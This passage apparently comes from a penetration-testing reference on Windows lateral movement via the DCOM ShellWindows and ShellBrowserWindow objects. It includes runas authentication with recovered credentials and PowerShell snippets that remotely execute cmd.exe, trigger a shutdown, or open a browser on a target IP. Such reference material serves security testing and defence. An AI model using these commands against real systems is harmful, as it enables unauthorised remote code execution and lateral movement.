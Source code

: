 Successful auth over RPC is required; however, regardless of privilege the code will execute as a child of the explore.exe process with limited privileges. No scaping memory directly with this method.. :\(

**Port:** 135/TCP \(RPC\), plus one high-random TCP \(DCOM\)

**Tools:** native .NET calls on Windows

  
When invoking .NET calls in this fashion, the existing auth token is used. Great for lateral movement from a compromised system, but not if you are remotely accessing a target machine with recovered credentials. The simplest method we have found is to create a new PS Session with runas.

**Example auth:**

```text
PS> runas /netonly /user:TESTLAB\josh "powershell.exe"
```

  
**Example code execution:**

```text
PS> $com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.112.200")
PS> $obj = [System.Activator]::CreateInstance($com)
PS> $item = $obj.Item()
PS> $item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0)
```

  
**Example: call shutdown routine \(user prompted for confirmation\):**

```text
PS> $com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.112.200")
PS> $obj = [System.Activator]::CreateInstance($com)
PS> $item = $obj.Item()
PS> $item.Document.Application.ShutDownWindows()
```

  
**Example troll: launch IE with Sloths in Space \(10 hours\):**

```text
PS> $com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.112.200")
PS> $obj = [System.Activator]::CreateInstance($com)
PS> $item = $obj.Item()
PS> $item.Document.Application.ShellExecute("iexplore.exe","https://www.youtube.com/watch?v=AaxQhNBBSkM","C:\Program Files\Internet Explorer",$null,"1")
```

### ShellBrowserWindow Object

Functionally the same as the previous method, the ShellBrowserWindow object can be leverage for remote code execution over DCOM

**Port:** 135/TCP \(RPC\), plus one high-random TCP \(DCOM\)

**Tools:** native .NET calls on Windows

  
When invoking .NET calls in this fashion, the existing auth token is used. Great for lateral movement from a compromised system, but not if you are remotely accessing a target machine with recovered credentials. The simplest method we have found is to create a new PS Session with runas.

